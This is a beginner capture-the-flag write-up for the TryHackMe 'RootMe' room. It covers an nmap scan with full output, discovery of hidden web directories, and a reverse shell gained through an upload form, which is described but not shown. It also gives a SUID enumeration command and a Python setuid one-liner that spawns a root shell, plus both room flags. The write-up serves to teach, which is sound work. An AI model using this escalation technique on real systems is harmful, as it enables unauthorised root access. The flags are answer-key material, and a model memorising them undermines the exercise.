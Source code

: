 # RootMe

A ctf for beginners, can you root me?

[RootMe](https://tryhackme.com/room/rrootme)

## 💢 We will cover  the topics

- Network Enumeration
- Web Enumeration
- Abusing SUID/GUID



---------------------------------

## Deploy the machine

Connect to TryHackMe network and deploy the machine. If you don't know how to do this, complete the OpenVPN room first.

1. Deploy the machine

`No answer needed`

## Reconnaissance

First, let's get information about the target.

```
kali@kali:~/CTFs/tryhackme/RootMe$ sudo nmap -A -Pn -sC -sV -O 10.10.16.101
[sudo] password for kali:
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-04 13:09 CEST
Nmap scan report for 10.10.16.101
Host is up (0.038s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=10/4%OT=22%CT=1%CU=36022%PV=Y%DS=2%DC=T%G=Y%TM=5F79AD9
OS:6%P=x86_64-pc-linux-gnu)SEQ(SP=FE%GCD=1%ISR=107%TI=Z%CI=Z%II=I%TS=A)OPS(
OS:O1=M508ST11NW6%O2=M508ST11NW6%O3=M508NNT11NW6%O4=M508ST11NW6%O5=M508ST11
OS:NW6%O6=M508ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN(
OS:R=Y%DF=Y%T=40%W=F507%O=M508NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=
OS:S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 8888/tcp)
HOP RTT      ADDRESS
1   37.33 ms 10.8.0.1
2   37.59 ms 10.10.16.101

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.41 seconds
```

1. Scan the machine, how many ports are open?

`2`

2. What version of Apache are running?

`2.4.29`

3. What service is running on port 22?

`SSH`

4. Find directories on the web server using the GoBuster tool.

- [http://10.10.16.101/panel/](http://10.10.16.101/panel/)
- [http://10.10.16.101/uploads/](http://10.10.16.101/uploads/)

1. What is the hidden directory?

`/panel/`

## Getting a shell

Find a form to upload and get a reverse shell, and find the flag.

1. user.txt

`THM{y0u_g0t_a_sh3ll}`

## Privilege escalation

Now that we have a shell, let's escalate our privileges to root.

1. Search for files with SUID permission, which file is weird?

```
bash-4.4$ find / -user root -perm /4000 2> /dev/null
find / -user root -perm /4000 2> /dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/traceroute6.iputils
/usr/bin/newuidmap
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/python
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/pkexec
/snap/core/8268/bin/mount
/snap/core/8268/bin/ping
/snap/core/8268/bin/ping6
/snap/core/8268/bin/su
/snap/core/8268/bin/umount
/snap/core/8268/usr/bin/chfn
/snap/core/8268/usr/bin/chsh
/snap/core/8268/usr/bin/gpasswd
/snap/core/8268/usr/bin/newgrp
/snap/core/8268/usr/bin/passwd
/snap/core/8268/usr/bin/sudo
/snap/core/8268/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/8268/usr/lib/openssh/ssh-keysign
/snap/core/8268/usr/lib/snapd/snap-confine
/snap/core/8268/usr/sbin/pppd
/snap/core/9665/bin/mount
/snap/core/9665/bin/ping
/snap/core/9665/bin/ping6
/snap/core/9665/bin/su
/snap/core/9665/bin/umount
/snap/core/9665/usr/bin/chfn
/snap/core/9665/usr/bin/chsh
/snap/core/9665/usr/bin/gpasswd
/snap/core/9665/usr/bin/newgrp
/snap/core/9665/usr/bin/passwd
/snap/core/9665/usr/bin/sudo
/snap/core/9665/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/9665/usr/lib/openssh/ssh-keysign
/snap/core/9665/usr/lib/snapd/snap-confine
/snap/core/9665/usr/sbin/pppd
/bin/mount
/bin/su
/bin/fusermount
/bin/ping
/bin/umount
```

`/usr/bin/python`

2. Find a form to escalate your privileges.

`No answer needed`

3. root.txt

```
bash-4.4$ /usr/bin/python -c 'import os; os.setuid(0); os.system("/bin/sh")'
/usr/bin/python -c 'import os; os.setuid(0); os.system("/bin/sh")'
# whoami
whoami
root
# cat /root/root.txt
cat /root/root.txt
THM{pr1v1l3g3_3sc4l4t10n}
#
```

